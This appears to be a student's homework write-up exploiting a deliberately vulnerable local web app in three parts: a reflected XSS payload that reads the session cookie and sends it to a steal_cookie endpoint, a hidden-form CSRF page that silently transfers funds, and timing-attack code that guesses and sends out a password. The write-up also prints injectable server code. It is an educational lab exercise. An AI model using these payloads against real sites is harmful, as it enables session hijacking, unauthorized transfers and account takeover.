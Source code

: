 # 1. Alpha Exploit: Cookie Stealing

Due to the instructions given in the document, I found out that the vulnerability is located in the router.js file:

```javascript
router.get('/profile', asyncMiddleware(async (req, res, next) => {
  if(req.session.loggedIn == false) {
    render(req, res, next, 'login/form', 'Login', 'You must be logged in to use this feature!');
    return;
  };

  if(req.query.username != null) { // if visitor makes a search query
    const db = await dbPromise;
    const query = `SELECT * FROM Users WHERE username == "${req.query.username}";`;
    let result;
    try {
      result = await db.get(query);
    } catch(err) {
      result = false;
    }
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
  } else { // visitor did not make query, show them their own profile
    render(req, res, next, 'profile/view', 'View Profile', false, req.session.account);
  }
}));
```

To be exact in the scenario where the username that is searched does not exist, the code renders `profile/view` displaying the message that `"<username> does not exist!"`. At this very part we can exploit the cookie by sending a request to the `/profile` path with the queryparam `username` which is not present in the database. With a malicious request in a script, the cookie can be stolen.
In details, The script get the cookie and sends it to the server.

As demonstrated in the question, we already have the url ``` url http://localhost:3000/profile?username=```

In the next step the url is followed by the script that steals the cookie and sends it to the server in addition to hiding the message that indicates there is no such username.

``` javascript
<script>
document.querySelector('.error').style.visibility = 'hidden';

var cookieValue = document.cookie.includes('session=')
    ? document.cookie.split('session=')[1].split(';')[0]
    : '';

new Image().src = `http://localhost:3000/steal_cookie?cookie=${cookieValue}`;
</script>
```
after writing the script, I encoded the script with the help of a website ```url https://www.urlencoder.org/``` and received the url below:

``` url
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and then in the terminal of the IDE (server) there was a log of the cookie I stole:

```
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and confirmed that the cookie theft was successful!

# 2. Bravo Exploit: Cross-site request forgery (CSRF)

For the first step we need to alter the changes in the browser's setting. In the privacy and security tab in firefox browser, we need to set the browser privacy to custom and enable cross-site tracking cookies.
![image](https://github.com/user-attachments/assets/570c15a7-a9f4-4e30-b11b-939e7b779aa6)


followed by that there is the `b.html` file to fill.

There are 3 parts to the code:

1. The script i‍n `<head>`

The JavaScript in the `<head>` defines and handles the malicious behavior of the page.
 
The `document.addEventListener("DOMContentLoaded", ...)` ensures the code runs only after the HTML document has fully loaded, and it guarantees that all elements like the form and iframe are accessible in the DOM before the script executes.
 
The constant `hijackUrl` stores the URL where the browser will redirect the user after the form submission process completes.
 
The variable let `isSubmitted = false` tracks whether the form has been submitted. It prevents accidental or repeated redirection before the form is submitted.
The `handleTransferAndRedirect()` function is the core function that selects the form `(document.forms['transfer_form'])` and iframe `(document.getElementById("transformiFrame"))`.It submits the form using `form.submit()` to send data to the target endpoint. Additionally, it sets `isSubmitted` to true to indicates that the form has been sent.

This function adds an event listener to the iframe's load event:
 
When the iframe finishes loading, the browser checks if the form submission was completed `(isSubmitted === true)`.

If true, the browser redirects the user to the `hijackUrl`.

For the final step of this part, the call to `handleTransferAndRedirect()` executes the function immediately after defining it to initiate the form submission and set up the iframe listener.

2. The form in `<body>`
 
The form, identified by the `id="transfer_form"`, is configured to silently submit data to a specified endpoint (`http://localhost:3000/post_transfer`) using the `POST` method, with the results directed to a hidden iframe (`target="transformiFrame"`).
 
It includes two hidden inputs: `destination_username`, preset to `"attacker"`, and `quantity`, set to `10`, ensuring the transfer operation remains invisible to the user. These attributes collectively enable the seamless execution of the attack without the user’s knowledge.
 
3. The iFrame in `<body>`
The hidden iframe, identified by `id="transformiFrame"`, serves as an invisible intermediary to handle the form's response without user awareness. Its `name="transformiFrame"` attribute matches the form's `target` attribute, ensuring the form's submission results are loaded into the iframe. Once the form submission is complete and the iframe finishes loading the response, a `load` event is triggered in the JavaScript, redirecting the user to the predefined `hijackUrl`. This setup enables a seamless, covert operation.
 
I originally wanted to use the Promise function to have the functions executing in row but for some reason it did not work. Instead, I used the target attribute for form. 
 
here are the links I used for this question:
```url https://www.w3schools.com/tags/att_form_target.asp```
```url https://stackoverflow.com/questions/37146241/promise-not-working-properly```

# 3. Gamma Exploit: Timing Attack
 
In this part of the Homework, a timming attack is going to be performed. In this Scenario, Since the computation time of the server for the correct and incorrect passwords are not the same, the attacker can figure out which password is the correct one. 
 
In the given file of the question, there is a dictionary of the possible passwords containing the correct password.
 
In the following steps, I'm going to explain the completed version of the template provided under the name `Gamma_Starter.html` named as g.txt:
``` javascript
var dictionary = [`password`, `123456`, `12345678`, `dragon`, `1234`, `qwerty`, `12345`];
      var index = 0;
      var timings = [];
      var test = document.getElementById("test");
```
The `timings` array has been added to store the time each password candidate takes.

```javascript
test.onerror = function () {
        var end = new Date();
        var timeTaken = end - start;

        console.log(`Attempt ${index}: Password: "${dictionary[index - 1]}", Time elapsed: ${timeTaken} ms`);
        timings.push({ index: index - 1, time: timeTaken });

        start = new Date();

        if (index < dictionary.length) {
          console.log(`Testing password: "${dictionary[index]}"...`);
          test.src = `http://localhost:3000/get_login?username=userx&password=${dictionary[index]}`;
        } else {
          var maxTimeEntry = timings.reduce((max, current) =>
            current.time > max.time ? current : max
          );
          var guessedPassword = dictionary[maxTimeEntry.index];
          console.log(
            `Guessed Password: "${guessedPassword}", Max Time: ${maxTimeEntry.time} ms`
          );
          var theftUrl = `http://localhost:3000/steal_password?password=${guessedPassword}&timeElapsed=${maxTimeEntry.time}`;
          console.log(`Sending theft request with password "${guessedPassword}"...`);
          var theftImage = new Image();
          theftImage.src = theftUrl;
        }
        index += 1;
      };
```
In the function, `timeTaking` has been added to calculate the exact time that a password takes time to be checked. 
 
Later, I placed a log in the code that each try for a password be logged and I would be able to check it in the logs of my docker container.
 
![image](https://github.com/user-attachments/assets/7e7924b0-aec8-4d97-b88a-b0fedcf41a0e)
 
After the logs, each timing is stored in the `timing` array.
 
As long as we have not reached the end of the array, each password is tested in the `test.src` url. After that the `maxTimeEntry` variable, stores the max time that a password has taken to be checked by being checked in the `else` with the current time.
 
In the next step, there is the `guessedPassword` variable holding the element in the dictionary via finding it by the index of `maxTimeEntry` and then it logs it.(The correct password can be seen in the image above.)
 
The last part of the code sends a request to a server with the guessed password and its response time by dynamically creating a URL (`theftUrl`). An `Image` object (`theftImage`) is used to initiate the request by setting its `src` property to the URL. This triggers an HTTP GET request, and a log indicates the request is being sent with the guessed password. 

